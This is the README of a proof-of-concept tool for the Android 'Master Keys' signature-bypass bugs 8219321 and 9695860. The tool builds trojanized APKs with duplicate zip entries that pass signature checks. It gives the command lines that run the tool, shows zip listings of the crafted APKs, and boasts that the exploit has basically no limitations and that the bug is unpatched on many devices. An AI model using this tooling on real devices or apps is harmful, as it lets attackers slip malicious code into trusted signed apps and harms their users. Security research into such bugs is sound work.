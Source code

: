 Zip File Arbitrage AKA Android Master Keys
===================

This project includes a proof of concept for Android bug 8219321 as well as bug 9695860. Jay Saurik found a very nice way to utilize bug 9695860. He describes it far better than I could [here](http://www.saurik.com/id/18). I did not implement the advanced interleaving that he mentions here, but I did implement the ability to have more or less entries in the trojan app.  There are basically no limitations with this exploit.  In addition, this bug is patched on way less devices than AndroidMasterKeys.

The ```-b``` switch makes this tool use bug 9695860.

Run it as:
```
java -jar bin/AndroidMasterKeys.jar -b -a Orig.apk -z modifiedAPK.apk
```

The older bug deemed 'Android Master Keys' is described below:

This is a POC example for Android bug 8219321 (master keys):
  - [Well Written Explaination by Al Sutton](https://plus.google.com/113331808607528811927/posts/GxDA6111vYy)
  - [CyanogenMod Bug Report](https://jira.cyanogenmod.org/browse/CYAN-1602)
  - [CyanogenMod Patch](http://review.cyanogenmod.org/#/c/45251/)
  - [Blue Boxes' teaser of Blackhat talk](http://bluebox.com/corporate-blog/bluebox-uncovers-android-master-key/)
  - [POF's original POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8)
  - [Rekey.io - A Root framework patcher](http://www.rekey.io/)

Run it as:
```
java -jar bin/AndroidMasterKeys.jar -a Orig.apk -z modifiedAPK.apk
```

Please note that -most- ZIP libraries do not handle doing this properly.  UNIX zip's append will not allow file name collisions. It may be able to be done in Python, but it's default ZipFile append method only will add files in non-compressed.

The output from this [POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8) gives: 
```
➜  AndroidMasterKeys git:(master) unzip -vl pythonModdedApp.apk
Archive:  pythonModdedApp.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   196197  61%  07-08-13 21:53  81ab41c8  classes.dex
    1664  Stored     1664   0%  07-08-13 21:51  db586380  AndroidManifest.xml
  506720  Stored   506720   0%  07-08-13 21:51  1fee85e8  classes.dex
     194  Stored      194   0%  07-08-13 21:51  463e5f86  library.properties
     776  Stored      776   0%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
     515  Stored      515   0%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     462  Stored      462   0%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     692  Stored      692   0%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
    1761  Stored     1761   0%  07-08-13 21:51  e23c7570  rootdoc.txt
--------          -------  ---                            -------
 1020352           709837  30%                            10 files
 ```
 
 This tool takes proper care to not duplicate any files, while at the same time making sure that all 'appended' files are also compressed. 


 ```
unzip -vl AndroidMasterKeysModded.apk
Archive:  AndroidMasterKeysModded.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   195600  61%  07-08-13 21:53  81ab41c8  classes.dex
     692  Defl:N      311  55%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
    1664  Defl:N      621  63%  07-08-13 21:51  db586380  AndroidManifest.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
  506720  Defl:N   190564  62%  07-08-13 21:51  1fee85e8  classes.dex
     194  Defl:N      144  26%  07-08-13 21:51  463e5f86  library.properties
    1761  Defl:N      741  58%  07-08-13 21:51  e23c7570  rootdoc.txt
     462  Defl:N      298  36%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     515  Defl:N      330  36%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     776  Defl:N      604  22%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
--------          -------  ---                            -------
 1020352           390069  62%                            10 files
 ```
 
To hack on the project download SBT run the following to build a jar:
```
sbt assembly
```
You can also add the gen-idea plugin and generate IntelliJ project files as well.
